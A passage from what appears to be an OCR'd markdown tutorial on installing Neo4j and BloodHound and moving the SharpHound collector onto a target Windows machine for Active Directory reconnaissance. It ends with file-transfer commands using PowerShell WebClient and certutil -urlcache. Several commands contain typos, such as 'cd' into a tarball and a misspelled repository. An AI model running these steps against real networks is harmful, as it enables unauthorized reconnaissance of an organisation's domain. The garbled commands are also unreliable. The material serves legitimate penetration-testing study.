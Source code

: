 ```bash
cd nep4j-community-5.12.0-unix.tar.gz
```

3. Start Neo4j Service

```bash
./bin/neo4j console
```

4. Set the default credential in Neo4j

```bash
Username: neo4j
Password: neo4j
```

#### Install BloodHound

1. Clone BloodHound Repository

```bash
git clone http://github.com/BloodHoundAD/BloodHount.git
```

2. Install dependencies

```bash
cd BloodHound
```

```bash
npm install
```

```bash
npm run build
```

### SharpHound (Data Collector)

* BloodHound relies on **SharpHound** to collect AD data from the enviornment.
* SharpHound is written in C# and comes as an executable or powershell script

[BloodHound Collectors Github]()
[Sharphound Github]()
[SharpHound Releases]()

1. Download SharpHound from BloodHound Github Release

```bash
wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.0.3/SharpHound.exe
```

2. Transfer ``SharpHound.exe`` to the target machine using SMB, HTTP, Evil-WinRM or other methods

```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('<url>','SharpHound.exe')
```

```cmd
certutil.exe -urlcache -split -f "<url>" SharpHound.ps1
```
